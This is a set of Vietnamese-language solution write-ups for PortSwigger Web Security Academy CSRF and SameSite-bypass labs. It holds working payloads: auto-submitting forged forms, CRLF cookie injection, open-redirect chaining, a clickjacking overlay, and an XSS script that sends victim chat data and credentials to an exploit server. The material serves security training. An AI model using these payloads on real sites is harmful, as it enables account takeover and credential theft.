

# CSRF

# **Lab: CSRF vulnerability with no defenses**

[Lab: CSRF vulnerability with no defenses | Web Security Academy](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Thực hiện login vào tài khoản `wiener:peter` .  Điều hướng đến chức năng `My account > Update email`
    
    
    
- Thực hiện update email. Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `POST /my-account/change-email` . Thực hiện tạo form html từ request này như sau:
    - Tạo form HTML
        
        
        
    - Copy form HTML
        
        
        
- Thực hiện gửi form trên cho victim bằng cách dùng exploit server
    - Exploit server
        - Head
            
            ```html
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```html
            <html>
              <!-- CSRF PoC - generated by Burp Suite Professional -->
              <body>
                <form action="https://0a6b00d703fbec7f8049035c00f70074.web-security-academy.net/my-account/change-email" method="POST">
                  <input type="hidden" name="email" value="a&#64;a&#46;com" />
                  <input type="submit" value="Submit request" />
                </form>
                <script>
                  history.pushState('', '', '/');
                  document.forms[0].submit();
                </script>
              </body>
            </html>
            
            ```
            
- Thực hiện `View exploit` thấy đổi email thành công
    - POC
        
        
        
- Thực hiện `Deliver exploit to victim` . Hoàn thành giải lab
    - POC
        
        
        

# **Lab: CSRF where token validation depends on request method**

[Lab: CSRF where token validation depends on request method | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

- Thực hiện login vào tài khoản `wiener:peter` . Điều hướng đến chức năng `My account > Update email` và thực hiện update email
    
     
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt và chuyển request gửi tới API `POST /my-account/change-email` và chuyển sang tab `Repeater`
    
    
    
- Trong Repeater, thực hiện change request method như sau:
    - Click chuột phải, chọn `Change request method`
        
        
        
- Thực hiện gửi request với method `GET` và quan sát thấy vẫn cập nhật email thành công
    - Request
        
        ```jsx
        GET /my-account/change-email?email=a1%40a.com HTTP/2
        Host: 0a1900a304c2a0c48003a80100290083.web-security-academy.net
        Cookie: session=SVVxrZp78RO49gr2uDd6IVa3zfC0owka
        
        ```
        
    - POC
        
        
        
        
        
- Copy url change email và gửi cho victim bằng exploit server
    - Exploit server
        - Head
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <script>
            location="https://0a1900a304c2a0c48003a80100290083.web-security-academy.net/my-account/change-email?email=a1%40a.com";
            </script>
            ```
            
- Thực hiện `Deliver to victim` và quan sát thấy hoàn thành giải lab
    - POC
        
        
        

# **Lab: CSRF where token validation depends on token being present**

[Lab: CSRF where token validation depends on token being present | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

- Thực hiện login với tài khoản `wiener:peter` . Điều hướng đến chức năng `My account > Update email`
    
    
    
- Trong phần mềm Burpsuite, thực hiện và chuyển request gửi tới API `POST /my-account/change-email` sang tab Repeater.
    
    
    
- Quan sát rằng khi thực hiện xóa `csrf` thì vẫn đổi email thành công
    - POC
        
        
        
- Thực hiện gửi form đổi email mà không có csrf token cho victim bằng exploit server
    - Exploit server
        - Head
            
            ```jsx
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```jsx
            <html>
              <!-- CSRF PoC - generated by Burp Suite Professional -->
              <body>
                <form action="https://0a59002403d3e0d780d6170c00450078.web-security-academy.net/my-account/change-email" method="POST">
                  <input type="hidden" name="email" value="a1&#64;a&#46;com" />
                  <input type="submit" value="Submit request" />
                </form>
                <script>
                  history.pushState('', '', '/');
                  document.forms[0].submit();
                </script>
              </body>
            </html>
            
            ```
            
- Thực hiện deliver to victim. Quan sát thấy hoàn thành giải lab
    - POC
        
        
        

# **Lab: CSRF where token is not tied to user session**

[Lab: CSRF where token is not tied to user session | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

- Thực hiện đăng nhập với tài khoản   `carlos:montoya`. Điều hướng đến chức năng `My account > Update email` và thực hiện update email
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt và chuyển request tới API `POST /my-account/change-email` sang tab Repeater.
    - Request
        
        ```html
        POST /my-account/change-email HTTP/2
        Host: 0afb00db04cd082780dc171800120072.web-security-academy.net
        Cookie: session=WkZm439AChsdCvfJav5yWpANSUrMHUdw
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 55
        
        email=abc%40a.com&csrf=GgAMfZplnksvbT4gcRrserdELylR50Np
        ```
        
        
        
- Thực hiện login với tài khoản `wiener:peter` . Thực hiện update email. Trong phần mềm Burpsuite, thực hiện chặn request gửi tới API `POST /my-account/change-email` . Thực hiện lấy `csrf` token và thay vào request update email của user `carlos` . Quan sát thấy update email thành công
    - `wiener` request
        
        ```html
        POST /my-account/change-email HTTP/2
        Host: 0afb00db04cd082780dc171800120072.web-security-academy.net
        Cookie: session=PtAThqWnyAzJVy42SkByMXaZaTeAsUh0
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 54
        
        email=a1%40a.com&csrf=t31dorkimS6svdFcduY3WQnFnhHLzgMA
        ```
        
    - `carlos` request
        
        ```html
        POST /my-account/change-email HTTP/2
        Host: 0afb00db04cd082780dc171800120072.web-security-academy.net
        Cookie: session=WkZm439AChsdCvfJav5yWpANSUrMHUdw
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 56
        
        email=a1%40a.com&csrf=t31dorkimS6svdFcduY3WQnFnhHLzgMA
        ```
        
    - POC
        
        
        
        
        
- Thực hiện lấy lại csrf token mới, thực hiện gửi form cho victim bằng exploit server
    - Exploit server
        - Head
            
            ```html
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```html
            <html>
              <!-- CSRF PoC - generated by Burp Suite Professional -->
              <body>
                <form action="https://0afb00db04cd082780dc171800120072.web-security-academy.net/my-account/change-email" method="POST">
                  <input type="hidden" name="email" value="a1&#64;a&#46;com" />
                  <input type="hidden" name="csrf" value="<your-csrf-token>" />
                  <input type="submit" value="Submit request" />
                </form>
                <script>
                  history.pushState('', '', '/');
                  document.forms[0].submit();
                </script>
              </body>
            </html>
            
            ```
            
- Thực hiện deliver to victim và hoàn thành giải lab
    - POC
        
        
        

# **Lab: CSRF where token is tied to non-session cookie**

[Lab: CSRF where token is tied to non-session cookie | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

- Thực hiện login vào 2 tài khoản `wiener` và `carlos`. Tại đây, quan sát rằng khi thực hiện `Change email` thì có csrf token gửi cùng. Tuy nhiên, csrf token này không gắn với user. Thật vậy, khi thực hiện lấy csrf token và csrf token key của user khác, chúng ta vẫn có thể đổi email thành công
    - POC
        - User `wiener`
            
            
            
        - User `carlos`
            
            
            
- Như vậy, chúng ta có thể thực hiện tấn công csrf với victim bằng csrf token và csrf key của chúng ta.
- Còn 1 vấn đề nữa đó là `csrfKey` lại được lưu ở cookie ⇒ không thể đổi chỉ bằng js được. Tuy nhiên, khi user thực hiện tìm kiếm thì cookie có thêm một value là `LastSearchTerm` và chúng ta lại có thể dùng `CRLF` gửi dẫn đến việc set cookie khác như sau:
    - Payload
        
        ```bash
        aa%0d%0aSet-Cookie%3acsrfKey%3d3jpste6acPLOqBDARLO2oxtz6zGXIe7a
        ```
        
    - Request
        
        ```bash
        GET /?search=aa%0d%0aSet-Cookie%3acsrfKey%3d3jpste6acPLOqBDARLO2oxtz6zGXIe7a HTTP/2
        Host: 0a2c001d036894b4804b499b00620094.web-security-academy.net
        Cookie: session=2RS98AqwZ4PGxLKwmuzkCHRetBVrvlAs; csrfKey=5quQGTttCG4YxyRCp3A1yEQG9NSkLjqr; LastSearchTerm='">
        
        ```
        
    - Response
        
        
        
- Thực hiện gửi url chứa payload set cookie và csrf bằng cách set timeout cho submit form chỉ khi cookie đã set thành công như sau bằng Exploit server
    - Exploit server
        - Head
            
            ```bash
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```html
            <html>
              <body>
                <form action="https://0a2c001d036894b4804b499b00620094.web-security-academy.net/my-account/change-email" method="POST" id="csrf-form">
                  <input type="hidden" name="email" value="aaaa@a.com" />
                  <input type="hidden" name="csrf" value="jGgd3UIbdj0gopJhIFn8xxzao9woHRV1" />
                </form>
            
                <script>
                  async function deploy() {
                    const trigger = new Image();
                    
                    const waitCookie = new Promise(resolve => {
                      trigger.onerror = resolve;
                      trigger.onload = resolve;
                    });
            
                    const labUrl = "https://0a2c001d036894b4804b499b00620094.web-security-academy.net/";
                    const injection = "?search=aa%0d%0aSet-Cookie:csrfKey=3jpste6acPLOqBDARLO2oxtz6zGXIe7a;SameSite=None";
                    
                    trigger.src = labUrl + injection;
                    await waitCookie; 
                    
                  
                      document.getElementById('csrf-form').submit();
                  }
            
                  deploy();
                </script>
              </body>
            </html>
            ```
            
- Thực hiện deliver to victim. Quan sát lab giải thành công
    - POC
        
        
        

# **Lab: CSRF where token is duplicated in cookie**

[Lab: CSRF where token is duplicated in cookie | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

- Thực hiện login vào tài khoản `wiener:peter` . Điều hướng đến chức năng tìm kiếm và thực hiện tìm kiếm.
    
    
    
- Quan sát trong cookie sau khi thực hiện tìm kiếm, có thêm field `LastSearchTerm` .
    - POC
        
        
        
- Thực hiện điều hướng đến chức năng `My account` . Thực hiện update email và nhận thấy có thể luồng kiểm tra server là lấy token ở cookie rồi so sánh với token ở body request, và token này cũng gắn với session vì khi gửi form csrf cho victim với csrf của chúng ta thì attack thất bại ⇒ cần đổi csrf token của victim ở cookie + csrf  ⇒ update email.
    - POC
        
        
        
        
- Vì chúng ta thấy có thể điều khiển cookie bằng cách thêm dấu xuống dòng và set thêm cookie field là csrf token trong response là đổi được token của người dùng
    - POC
        - Request
            
            ```html
            GET /?search=aa%0d%0aSet-Cookie%3acsrf%3dtesty&csrf=aaaaaa HTTP/2
            Host: 0add00ce044d5174803303aa00e80042.web-security-academy.net
            Cookie: session=BblPAjGlrVUgJypPwVJZmwqs5OFurHCv; LastSearchTerm=aa
            Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
            
            ```
            
        - Response
            
            
            
- Sau đó thực hiện gửi csrf form sau cho victim bằng exploit server. Trước khi submit form, chúng ta dùng await async buộc victim set cookie trước sau đó mới submit form
    - Exploit server config
        - Head
            
            ```html
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```html
            <html>
              <body>
                <form action="https://0add00ce044d5174803303aa00e80042.web-security-academy.net/my-account/change-email" method="POST" id="csrf-form">
                  <input type="hidden" name="email" value="abc1@a.com" />
                  <input type="hidden" name="csrf" value="testy" />
                </form>
            
                <script>
                  async function deploy() {
                    const trigger = new Image();
                    
                    const waitCookie = new Promise(resolve => {
                      trigger.onerror = resolve;
                      trigger.onload = resolve;
                    });
            
                    const labUrl = "https://0add00ce044d5174803303aa00e80042.web-security-academy.net/";
                    const injection = "?search=test%0d%0aSet-Cookie:csrf=testy;%20SameSite=None;%20Secure";
                    
                    trigger.src = labUrl + injection;
                    await waitCookie; 
                    
                    document.getElementById('csrf-form').submit();
                  }
            
                  deploy();
                </script>
              </body>
            </html>
            ```
            
- Thực hiện `Deliver to victim` . Quan sát thấy solve lab thành công
    
    
    

# **Lab: SameSite Lax bypass via method override**

[Lab: SameSite Lax bypass via method override | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)

- Thực hiện login vào tài khoản `wiener:peter` . Điều hướng đến chức năng `Change email` . Tại đây, quan sát thấy không có cơ chế chống lại csrf attack.
    - POC
        
        
        
- Thực hiện thử nghiệm csrf attack thì không thành công vì mặc định chúng ta không thể lấy được cookie. Tuy nhiên, khi thực get thì có thể gửi request kèm cookie (ví dụ dùng `location` trên trang khác). Dù vậy, method cho phép update email là POST nên GET không hợp lệ
    - POC
        
        
        
- Mặc dù vậy, chúng ta vẫn có thể gửi get request nhưng be sẽ route đến post bằng cách sử dụng ghi đè method như sau. Thực hiện tạo web với form như sau bằng exploit server
    - Head
        
        ```bash
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        ```
        
    - Body
        
        ```bash
        <html>
          <!-- CSRF PoC - generated by Burp Suite Professional -->
          <body>
            <form action="https://0a7400a103d606e0803703d300760016.web-security-academy.net/my-account/change-email" method="GET">
            <input type="hidden" name="_method" value="POST">
              <input type="hidden" name="email" value="a&#64;a&#46;com" />
              <input type="submit" value="Submit request" />
            </form>
            <script>
              history.pushState('', '', '/');
              document.forms[0].submit();
            </script>
          </body>
        </html>
        
        ```
        
- Thực hiện Deliver to victim. Quan sát thấy giải lab thành công
    - POC
        
        
        

# **Lab: SameSite Strict bypass via client-side redirect**

[Lab: SameSite Strict bypass via client-side redirect | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

- Login vào tài khoản `wiener:peter`. Quan sát rằng, khi thực hiện chức năng `Change email` chúng ta có thể dùng method `GET` tuy nhiên thì trang thiết lập samesite strict nên không thể lấy cookie dù là method GET
    - POC
        
        
        
        
        
- Thực hiện điều hướng đến chức năng xem bài viết và thực hiện comment. Sau khi comment xong, chúng ta thấy được chuyển hướng đến một trang báo comment thành công và tự động quay lại bài viết. Cơ chế này được thực hiện bằng đoạn js sau:
    
    
    
- Quan sát rằng chúng ta có thể kiểm soát param `postId` và ở đây dùng window location ⇒ open redirect. Mặt khác, trang này cùng origin với trang change email ⇒ bypass samesite strict và change email bằng method get
- Thực hiện cấu hình exploit server với body là payload sau:
    - Exploit server
        - Body
            
            ```html
            <script>location="https://0ac100ef0405dbba80d012f100a50012.web-security-academy.net/post/comment/confirmation?postId=/../../my-account/change-email?email=a2%40a.com%26submit=1"</script>
            ```
            
- Thực hiện view exploit ⇒ thành công change email khi truy cập từ trang khác
    
    
    
- Thực hiện deliver to victim. Quan sát solve lab thành công
    - POC
        
        
        

# **Lab: SameSite Strict bypass via sibling domain**

[Lab: SameSite Strict bypass via sibling domain | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

- Trước hết, em thực hiện tìm kiếm attack surface nhưng thực sự không có vị trí nào có lỗi. Tiếp đến em nghĩ đến fuzz subdomain cũng không được. Nhưng đề bài cho là sibling domain → khả năng không là subdomain mà là một domain có tên miền gần giống.
- Em thực hiện fuzz bằng `ffuf` . Tìm được tên miền là `cms`
    - Payload
        
        ```html
        ./ffuf/ffuf -H "Host: FUZZ-0ae700ed04f191aa80ac71f700e50006.web-security-academy.net" -w subdomains-top1million-5000.txt   -u https://0ae700ed04f191aa80ac71f700e50006.web-security-academy.net/
        ```
        
    - POC
        
        
        
- Tại trang này, em thử nhập uname pwd bất kỳ thì thấy invalid nhưng lại render uname ⇒ test xss ⇒ có reflected xss
    - Request
        
        ```html
        https://cms-<url-lab>/login?username=%27%22%3E%3Cimg%20src=x%20%20onerror=alert(1)%3E&password=a
        ```
        
    - POC
        
        
        
- Em có thể chèn script chứa script khởi tạo websocket đồng thời vì nếu tham chiếu theo rule same site thì sibling domain này hoàn toàn có thể vượt qua `strict`  và load cookie ở domain kia
    - Request
        
        ```html
        https://cms-<url-lab>/login?username=%3Cscript%3E%20%20%20%20%20%20var%20ws%20%3d%20new%20WebSocket(%27wss%3a%2f%2f0a9600c003aaedc980a067e9005000b0.web-security-academy.net%2fchat%27)%3b%20%20%20%20%20%20%20%20%20%20ws.onopen%20%3d%20function()%20%7b%20%20%20%20%20%20%20%20%20ws.send(%22READY%22)%3b%20%20%20%20%20%7d%3b%20%20%20%20%20%20%20%20%20%20ws.onmessage%20%3d%20function(event)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20fetch(%27https%3a%2f%2fexploit-0a9b004b03f5ed2d80f066b7019800d4.exploit-server.net%2flog%3fres%3d%27%2bbtoa(event.data))%3b%20%20%20%20%20%7d%3b%20%3C%2fscript%3E&password=a\
        ```
        
    - Response
        
        
        
    - POC
        - Cookie được load ở `sibling domain`
            
            
            
        - Cookie ở domain ban đầu
            
            
            
- Đồng thời request gửi đến API `GET /login` của sibling domain không có csrf token ⇒ csrf. Thực hiện gửi cho victim bằng exploit server
    - Exploit server
        - Head
            
            ```html
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            
            ```
            
        - Body
            
            ```html
            <script>
            location="https://cms-<url-lab>/login?username=%3Cscript%3E%20%20%20%20%20%20var%20ws%20%3d%20new%20WebSocket(%27wss%3a%2f%2f0a9600c003aaedc980a067e9005000b0.web-security-academy.net%2fchat%27)%3b%20%20%20%20%20%20%20%20%20%20ws.onopen%20%3d%20function()%20%7b%20%20%20%20%20%20%20%20%20ws.send(%22READY%22)%3b%20%20%20%20%20%7d%3b%20%20%20%20%20%20%20%20%20%20ws.onmessage%20%3d%20function(event)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20fetch(%27https%3a%2f%2fexploit-0a9b004b03f5ed2d80f066b7019800d4.exploit-server.net%2flog%3fres%3d%27%2bbtoa(event.data))%3b%20%20%20%20%20%7d%3b%20%3C%2fscript%3E&password=a\";
            </script>
            ```
            
- Deliver cho victim. Kiểm tra access log nhận thấy có credential victim gửi về
    - POC
        
        
        
- Thực hiện decode base64
    
    
    
- Lấy credential và login thành công. Hoàn thành giải lab
    - POC
        
        
        

# **Lab: SameSite Lax bypass via cookie refresh**

[Lab: SameSite Lax bypass via cookie refresh | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)

- Thực hiện login vào tài khoản `wiener:peter` . Thực hiện thử nghiệm csrf attack bằng exploit server. Quan sát rằng khi thực hiện trong 2 phút kể từ khi login thì hoàn toàn có thể lấy được cookie là do cơ chế oauth trong 2 phút đầu sẽ để same-site strict. Ngoài ra, nếu như muốn lấy lại cookie mới ⇒ gọi tới API `GET /social-login` ⇒ lại có lại 2 phút kia. Như vậy, nếu khiến cho victim vào trang `GET /social-login` rồi sau đó dùng csrf attack ⇒ change email thành công
- Trước hết, phải khiến victim vào trang `GET /social-login` để lấy cookie mới. Tại exploit server, chúng ta tạo trang như sau để thực hiện 1 clickjacking attack
    - Exploitserver
        - Head
            
            ```bash
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            ```
            
        - Body
            
            ```bash
            	<div style="text-align: center; margin-top: 20vh; font-family: Arial, sans-serif;">
              Click anywhere on the page
            </div>
            <a href="https://0a3500f603710e1f80b31277009600bc.web-security-academy.net/social-login" 
               target="_blank" 
            style="display: block; position: fixed; top: 0; left: 0; width: 100vw; height: 100vh; z-index: 9999; opacity: 0; cursor: default;"
               onclick="">
                Click me!!!
            </a>
            ```
            
- Sau đó, ngay sau khi khiến victim lấy cookie mới cũng như là sẽ có samesite lax thì chúng ta sẽ thực hiện luôn csrf attack bằng cách thêm một function khi user click nhưng có timeout đủ chờ victim lấy được cookie mới và rơi vào trạng thái samesite lax. Toàn bộ phần body của exploit server như sau:
    - Body
        
        ```bash
        <form method="POST" action="https://0a3500f603710e1f80b31277009600bc.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="a1@hacker.com">
        </form>
        <div style="text-align: center; margin-top: 20vh; font-family: Arial, sans-serif;">
          Click anywhere on the page
        </div>
        <a href="https://0a3500f603710e1f80b31277009600bc.web-security-academy.net/social-login" 
           target="_blank" 
        style="display: block; position: fixed; top: 0; left: 0; width: 100vw; height: 100vh; z-index: 9999; opacity: 0; cursor: default;"
           onclick="setTimeout(function(){ document.forms[0].submit(); }, 6000);">
            Click me!!!
        </a>
        ```
        
- Thực hiện deliver to victim. Hoàn thành giải lab
    - POC
        
        
        

# **Lab: CSRF where Referer validation depends on header being present**

[Lab: CSRF where Referer validation depends on header being present | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)

- Thực hiện login vào tài khoản `wiener:peter` . Thực hiện change email và quan sát thấy chức năng này không kèm theo bất kỳ biện pháp bảo vệ chống csrf attack
    - POC
        
        
        
- Tuy nhiên, khi thử nghiệm với exploit server thì chúng ta thấy được có cơ chế chống lại csrf attack bằng cách kiểm tra referer header - header này chúng ta có thể kiểm soát
    - POC
        
        
        
- Bằng cách thêm thẻ meta chúng ta có thể lược bỏ header này, và vì cơ chế kiểm tra lỏng lẻo khi thiếu header này, csrf attack xảy ra
    - Payload
        
        ```bash
        <html>
        <meta name="referrer" content="never">
          <!-- CSRF PoC - generated by Burp Suite Professional -->
          <body>
            <form action="https://0a0a00eb04e650c68029e98800ac005b.web-security-academy.net/my-account/change-email" method="POST">
              <input type="hidden" name="email" value="a1&#64;a&#46;com" />
              <input type="submit" value="Submit request" />
            </form>
            <script>
              history.pushState('', '', '/');
              document.forms[0].submit();
            </script>
          </body>
        </html>
        
        ```
        
- Thực hiện deliver to victim và hoàn thành giải lab
    - POC
        
        
        

# **Lab: CSRF with broken Referer validation**

[Lab: CSRF with broken Referer validation | Web Security Academy](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)

- Thực hiện login với tài khoản `wiener:peter`. Điều hướng đến chức năng `My account > Update email`
    
    
    
- Tại đây, quan sát rằng khi thực hiện update email, server kiểm tra header `Referer`
    - POC
        
        
        
- Tuy nhiên, chúng ta có thể thực hiện thêm header như sau. Lưu ý vì chúng ta gửi request từ exploit server cho victim nên header `Referer` chứa domain của exploit server. Tuy nhiên, server lại chỉ kiểm tra xem header có chứa domain hợp lệ không ⇒ có thể dùng `?<valid domain name>` . Ngoài ra, với trình duyệt thường sẽ bỏ qua phần đằng sau `?` nên cần bổ sung header `Referrer-Policy: unsafe-url`
- Chúng ta sẽ tạo payload như sau:
    - Exploit server
        - Head
            
            ```html
            HTTP/1.1 200 OK
            Content-Type: text/html; charset=utf-8
            Referrer-Policy: unsafe-url
            ```
            
        - Body
            
            ```html
            <html>
              <!-- CSRF PoC - generated by Burp Suite Professional -->
              <body>
                <form action="https://<url-lab>/my-account/change-email" method="POST">
                  <input type="hidden" name="email" value="11111&#64;a&#46;com" />
                  <input type="submit" value="Submit request" />
                </form>
                <script>
                  history.pushState('', '', '/exploit?a=https://<url-lab>/my-account');
                  document.forms[0].submit();
                </script>
              </body>
            </html>
            
            ```
            
- Thực hiện gửi cho victim. Hoàn thành giải lab
    - POC
        
        
        
- 1 cách giải khác đó là thay vì dùng header `Referrer-Policy: unsafe-url` chúng ta có thể đẩy `meta` trong body
    - Body
        
        ```html
        <html>
          <!-- CSRF PoC - generated by Burp Suite Professional -->
          <meta name="referrer" content="unsafe-url">
          <body>
            <form action="https://<url-lab>/my-account/change-email" method="POST">
              <input type="hidden" name="email" value="11111&#64;a&#46;com" />
              <input type="submit" value="Submit request" />
            </form>
            <script>
              history.pushState('', '', '/exploit?a=https://<url-lab>/my-account');
              document.forms[0].submit();
            </script>
          </body>
        </html>
        
        ```